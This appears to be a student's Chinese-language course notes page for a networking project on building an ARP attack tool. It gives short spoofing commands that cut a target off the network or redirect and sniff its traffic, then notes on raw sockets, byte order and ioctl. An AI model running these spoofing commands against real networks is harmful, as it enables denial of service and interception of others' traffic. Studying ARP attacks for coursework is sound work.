 # ©计算机网络PBL----ARP攻击工具编写
## 一.arp断网攻击
         spoof -i eth0 -t 网关 targetIP
## 二.arp流量转发
         echo 1 > /proc/sys/net/ipv4/i_forward
         spoof -i eth0 -t 网关 targetIP
         wireshark OR ettercap whatever
## 三.arp群体攻击
         搞不定啊
## 四.arp编程
###   1.raw socket
####     int socket(int domain,int type,int protocol);//返回sockfd描述符
         domain:协议域；常见参数：AF_INET(IPV4)|AF_INET6(IPV6);原始套接字：PF_PACKET
         type：套接字类型；常见参数：SOCK_STREAM(TCP)|SOCK_DGRAM(UDP);原始套接字：SOCK_RAW
         protocal：协议类型；常见参数：IPPROTO_TCP|IPPROTO_UDP;原始套接字:ETH_P_IP|ETH_P_ARP|ETH_P_ALL
###   2.网络字节序函数
#### 函数
         htonl()
         ntohl()
         htons()
         ntohs()
         字节序为解决大端存放和小端存放的问题
#### HBO & NBO
         NBO(网络字节序顺序)：大端模式
         HBO(主机字节序)：根据机器而定
###  3.ioctl函数
####     int ioctl(int fd,unsigned long cmd,...);//失败返回-1
         管理I/O通道的函数 获取设备信息
         fd：文件描述符
         cmd:控制命令
         ...：接收返回结果的指针
### 4.字符串转换点分十进制IP函数
